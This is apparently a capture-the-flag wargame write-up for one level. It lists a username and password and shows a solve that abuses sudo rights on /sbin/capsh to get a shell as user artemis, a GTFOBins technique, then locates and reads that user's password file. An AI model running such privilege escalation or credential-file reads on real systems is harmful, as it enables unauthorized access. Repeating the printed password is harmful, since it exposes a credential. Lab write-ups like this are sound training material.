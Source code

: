 # username
arete
# password
QjrIovHacmGWxVjXRLmA
# mission contents
The user artemis allows us to use some binary on her behalf. Its a gift...
# method of solve
We are given `sudo` permissions as the `artemis` user with the `/sbin/capsh` binary. The privilege escalation method is well known, and can be found on the `gtfobins` website
```
sudo -l
sudo -u artemis capsh --
find / -group artemis 2>/dev/null | grep -v proc
cat /usr/share/artemis_pass.txt
```
